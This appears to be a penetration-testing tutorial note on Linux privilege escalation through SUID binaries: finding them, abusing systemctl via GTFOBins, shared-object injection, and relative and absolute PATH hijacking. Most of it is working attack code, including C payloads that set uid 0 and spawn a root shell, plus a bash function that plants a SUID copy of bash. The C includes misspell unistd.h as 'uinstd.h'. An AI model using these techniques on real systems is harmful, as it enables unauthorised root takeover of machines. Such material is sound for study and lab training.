 # Introduction

The [[File System#set-owner-user-id-suid|Set Owner User ID (SUID)]] and [[File System#set-group-id-sgid|Set Group ID (SGID)]] are special permissions which can be attributed to Linux files and folders. Any files which are owned by root and have SUID set will be executed with elevated privileges. Our goal is to hunt down those files and abuse them in order to escalate our privileges. This can be easily done with the following command:

```bash
find / -perm -u=s -type f -user root 2>/dev/null
```

![[res/Finding SUID Binaries.png]]

## Exploiting Misconfigured Common Binaries

You should diligently inspect the list of files returned. Some standard Linux binaries may allow for privilege escalation if they have the SUID bit set for one reason or another. It is useful to go through these binaries and check them on [[https://gtfobins.github.io/|GTFOBins]].

 In the above example, we find that `/bin/systemctl` has the SUID bit set and that it also has an [[https://gtfobins.github.io/gtfobins/systemctl/#suid|entry in GTFOBins]]:

![[res/Systemctl GTFOBins.png]]

By following the instructions, although with slight modifications, we can run commands with elevated privileges:

![[res/Systemctl Escalated Privileges.png]]

## Privilege Escalation via Shared Object Injection

Some binaries may be vulnerable to Shared Object (SO) Injection. This typically stems from misconfigurations where the binary looks for a specific library in a specific directory, but can't actually find it. If we have write access to this directory, we can hijack the search for the library by compiling our own malicious library in the place where the original one was supposed to be. This is quite similar to [[Sudo Escalation via LD_PRELOAD|escalating via LD_PRELOAD]], but it is a bit more difficult to find and exploit.

You will first need to identify an SUID binary which has misconfigured shared libraries. A lot of the times the binary will refuse to run, saying that it is missing a particular library, however, this is not always the case:

![[res/suid-so Run.png]]

It is always good practice to run the programme with `strace`, which will print any attempts of the binary to access libraries:

```bash
strace <binary> 2>&1 | grep -iE "open|access"
```

![[res/strace Library Misconfigurations.png]]

What stands out in particular is the `/home/user/.config/libcalc.so` library, since `/home/user/.config/` may be a writable directory. It turns out that the directory doesn't even exist, however, we can write to `/home/user/` which means that we can create it.

What now remains is to compile a malicious library into `libcalc.so`.

```cpp
#include <uinstd.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

For older versions of GCC, you may need to use the `_init()` function syntax:

```cpp
#include <uinstd.h>
#include <stdlib.h>

void _init()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

Compile the malicious library:
```bash
gcc -shared -fPIC -o libcalc.so libcalc.c # add -nostartfiles if using _init()
```

![[res/Shared Object Injection Successful.png]]

## Privilege Escalation via Path Hijacking

Path Hijacking refers to the deliberate manipulation of environmental variables, most commonly `\$PATH`, such that the invocations of programmes in a binary actually refer to malicious binaries and not the intended ones.

This vector requires more sophisticated digging into the internals of an SUID binary, specifically tracking down the different invocations the binary performs. This can commonly be achieved by running `strings` on the binary, but you will probably have to resort to more serious reverse engineering, as well. Specifically, you want to be on the lookout for shell commands which get executed by the SUID binary.

### Hijacking Relative Paths

Relative paths are comparably easy to hijack - they require little other than editing the `\$PATH` variable. Once you have identified a shell command within an SUID binary which invokes another programme via a relative path, you can just prepend to the `\$PATH` a directory which will contain an executable with the same name as the one originally invoked.

![[res/Start Apache Relative Path.png]]

Let's compile our own malicious binary. 

```cpp
#include <uinstd.h>
#include <stdlib.h>

int main()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");

	return 0;
}
```

```bash
gcc -o /tmp/service /tmp/service.c
```

Afterwards, we need to prepend `/tmp` to the `\$PATH` variable:
```bash
export PATH=/tmp:\$PATH
```

And finally, run the original SUID binary:

![[res/Hijacked Relative Path.png]]

### Hijacking Absolute Paths

Absolute paths require a bit more work to be hijacked. 

![[res/Start Apache Absolute Path.png]]

Luckily, bash turns out to be very sophisticated and allows for the creation of functions which have the forward slash (`/`) character in their name. This means that we can create a malicious bash function with the same name as the absolute path we want to hijack and then our function will be invoked in lieu of the original programme.

First, create the bash function:

```bash
function <absolute path here>() { cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p; }
```

Next, export the function:

```bash
export -f <absolute path here>
```

Finally, run the original SUID binary:

![[res/Hijacked Absolute Path.png]]